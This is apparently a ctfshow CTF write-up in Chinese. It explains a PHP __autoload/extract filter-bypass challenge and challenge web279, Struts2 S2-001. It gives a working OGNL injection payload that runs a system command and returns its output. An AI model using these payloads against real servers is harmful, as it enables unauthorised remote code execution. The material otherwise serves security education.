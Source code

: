 ```php
    function __autoload($class){
        if(isset($class)){
            $class();
    }
}

#过滤字符
$key = $_SERVER['QUERY_STRING'];
if(preg_match('/\_| |\[|\]|\?/', $key)){
    die("error");
}
$ctf = $_POST['ctf'];
extract($_GET);
if(class_exists($__CTFSHOW__)){
    echo "class is exists!";
}

if($isVIP && strrpos($ctf, ":")===FALSE && strrpos($ctf,"log")===FALSE){
    include($ctf);
}

```

pyload:?..ctfshow..=phpinfo搜索字符串flag就能找到flag

这个题

```php
function __autoload($class){
    if(isset($class)){
        $class();
}
}
```
不在类里面，当调用未定义的类时会自动调用这个函数，所以构造..CTFSHOW..类也会调用这个玩意，构造..CTFSHOW..=phpinfo,就会调用phpinfo();

###   web279(java S2-001)

> struts2漏洞 S2-001是当用户提交表单数据且验证失败时，服务器使用OGNL表达式解析用户先前提交的参数值，%{value}并重新填充相应的表单数据。例如，在注册或登录页面中。如果提交失败，则服务器通常默认情况下将返回先前提交的数据。由于服务器用于%{value}对提交的数据执行OGNL表达式解析，因此服务器可以直接发送有效载荷来执行命令。
>
> 

pyload:%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

